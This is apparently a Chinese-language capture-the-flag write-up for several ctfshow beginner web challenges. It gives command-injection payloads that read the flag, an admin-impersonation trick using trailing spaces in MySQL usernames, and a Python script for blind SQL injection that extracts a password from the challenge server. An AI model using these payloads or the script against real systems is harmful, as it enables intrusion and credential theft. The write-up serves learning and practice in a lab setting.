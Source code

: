 ## ctfshow【萌新赛】

### 给她            

从名字看就像`git源码`泄露，我们先用`dirmap`扫描一下：

![image-20230316205346616](https://s2.loli.net/2023/03/16/hSgFYrRqvy5kLuw.png)

果然是git源码泄露，我们使用`githack` 下载泄露的源码：

![image-20230316205511649](https://s2.loli.net/2023/03/16/MK7qWyNLYRJuh9d.png)

这里学到一个新的函数：`sprintf()` 

![image-20230316205737106](https://s2.loli.net/2023/03/16/Nn5HgBRuW2YfPGp.png)





### 签到题

```php
<?php 
if(isset($_GET['url'])){
        system("curl https://".$_GET['url'].".ctf.show");
}else{
        show_source(__FILE__);
}
 ?>
```

看到system就会想到命令执行，我们可以使用分号；去分隔命令。

payload：

```php
?url=;ls;
?url=;cat flag;
```





### 假赛生            

> 提示：register.php login.php 大佬们别扫了

index.php

```php
<?php
session_start();
include('config.php');
if(empty($_SESSION['name'])){
    show_source("index.php");
}else{
    $name=$_SESSION['name'];
    $sql='select pass from user where name="'.$name.'"';
    echo $sql."<br />";
    system('4rfvbgt56yhn.sh');
    $query=mysqli_query($conn,$sql);
    $result=mysqli_fetch_assoc($query);
    if($name==='admin'){
        echo "admin!!!!!"."<br />";
        if(isset($_GET['c'])){
            preg_replace_callback("/\w\W*/",function(){die("not allowed!");},$_GET['c'],1);
            echo $flag;
        }else{
            echo "you not admin";
        }
    }
}
?>
```

根据提示，我们访问`register.php`可以进行注册，访问`login.php`可以进行登录

我们先分析一下源代码index.php，我们首先需要 `$name==='admin'` ，$name是注册的时候设置的session值

只有我们注册的用户为admin才可以绕过第一层

这里有一个tips：

> mysql的`char`、`varchar`、`text`类型进行等值比较时，**会忽略末尾的空格**

例如：

![image-20230316214846624](https://s2.loli.net/2023/03/16/ZIBm6Rh15eYnwD4.png)

末尾的空格被忽略了，我们还是查询出了数据

我们再插入一条数据看看：

![image-20230316215336059](https://s2.loli.net/2023/03/16/kwR6cXG4BYnO2d1.png)

我们发现插入的用户名：`leekos   `  后面的空格也被自动去除了

> 如果我们想要精确查询，可以使用`like`关键字，不会忽略末尾的空格



根据以上分析，我们知道了，我们可以创建名为： `admin`  （后面有一个空格）的用户，这样就可以以admin身份登录了

![image-20230316215657201](https://s2.loli.net/2023/03/16/ltUsSx7cE19euKI.png)



![image-20230316215940405](https://s2.loli.net/2023/03/16/C3PmhegAoj5WKQ9.png)

成功登录，但是我们需要绕过第二层过滤：

```php
if(isset($_GET['c'])){
      preg_replace_callback("/\w\W*/",function(){die("not allowed!");},$_GET['c'],1);
      echo $flag;
}
```

`preg_replace_callback()` 函数作用是匹配到了 `/\w\W*/` 就会执行函数：`function(){die("not allowed!");}`

参数`c` 直接为空就行

![image-20230316220132413](https://s2.loli.net/2023/03/16/vyPdsWRic5HX9TY.png)



### 萌新记忆            

![image-20230316220228711](https://s2.loli.net/2023/03/16/Ofd8GRChEntX2i1.png)

没什么东西，我们使用dirsearch扫一下：

![image-20230316220415018](https://s2.loli.net/2023/03/16/lOGjVv7ecbaKRMY.png)

发现 `/admin/` 目录，我们访问一下，发现是一个登录页面，应该是sql注入

![image-20230316220846375](https://s2.loli.net/2023/03/16/RLYeJsM8a1c5pGm.png)



经过测试，我们发现用户名为：`admin`，并且只有用户名这里有注入点，

当用户名正确时，回显：`密码错误`。当用户名错误时，回显：`用户名/密码错误`

很明显这里需要使用 `布尔盲注`

我们先使用 `fuzz`看一下过滤了哪些字符：

![image-20230316221433875](https://s2.loli.net/2023/03/16/DM64iaS9JY7zBWQ.png)

发现：`or、select、union`等被过滤了

但是：`<、（）、substr、length、||` 没有被过滤，我们可以使用 `||` 去代替`or`

这里注入需查询的方式和以往不同，这里只需要查询出`admin`的密码即可

用户名`admin`的密码字段为：`p`

我们首先使用`length`查询出密码的长度

```
'||length(p)<'17
```

![image-20230316222410754](https://s2.loli.net/2023/03/16/Rkr3I4ydHLwjiWm.png)

```
'||length(p)<'18
```

![image-20230316222622646](https://s2.loli.net/2023/03/16/MytNKJ87pVlihFr.png)

此时说明密码长度为 17位

接下来我们需要使用脚本去获得密码了：

```python
import requests
url="http://97da0123-c533-4807-aca1-35bcc7f088a9.challenge.ctf.show/admin/checklogin.php"
letter="0123456789abcdefghijklmnopqrstuvwxyz"
flag=""
for i in range(1,18):
    for j in letter:
        payload="'||substr(p,{},1)<'{}".format(i,j)
        #print(payload)
        data={
            'u':payload,
            'p':1
            }
        res=requests.post(url=url,data=data).text
        print(res)
        if "密码错误" == res:
            flag += chr(ord(j)-1)
            print(flag)
            break
```

然后登录得到flag




































